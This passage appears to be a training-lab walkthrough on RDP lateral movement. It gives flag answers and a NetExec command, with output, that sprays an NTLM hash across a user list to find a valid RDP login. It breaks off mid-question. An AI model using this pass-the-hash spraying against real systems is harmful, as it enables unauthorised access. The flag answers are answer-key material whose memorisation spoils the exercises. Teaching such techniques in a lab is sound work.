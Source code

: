 Subsequently, students need to open `PowerShell` and query the contents of the `RDPFlag.txt` located in `C:\Flags`:

Code: powershell

```powershell
type C:\Flags\RDPFlag.txt
```

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\crismerlin> type C:\Flags\RDPFlag.txt
```

Answer: `RDP_For4_Lateral_Movement`

# Remote Desktop Service (RDP)

## Question 3

### "Find which user can connect via RDP using this hash \`A35289033D176ABAAF6BEAA0AA681400\`:"

Students will reuse the previously spawned target and the user list they created. Subsequently, they will utilize `NetExec` on their workstations and the RDP protocol to proceed with spraying the hash and finding the user who can RDP using the hash:

Code: shell

```shell
netexec rdp STMIP -u users.txt -H A35289033D176ABAAF6BEAA0AA681400 | grep '[+]'
```

```
┌─[✗]─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ netexec rdp 10.129.229.244 -u users.txt -H A35289033D176ABAAF6BEAA0AA681400 | grep '[+]'

RDP                      10.129.229.244  3389   SRV01            [+] inlanefreight.local\{hidden}:A35289033D176ABAAF6BEAA0AA681400 
```

Answer: `Leonvqz`

# Remote Desktop Service (RDP)

## Question 4

### "Connect to SRV02 with the user from the previous question and read the flag located at C:\\Flags\\hash.txt"

Students will reuse the previously spawned target and RDP session(s). Subsequently, they will open `PowerShell` and ping `SRV02` to uncover the IP address assigned to that machine:
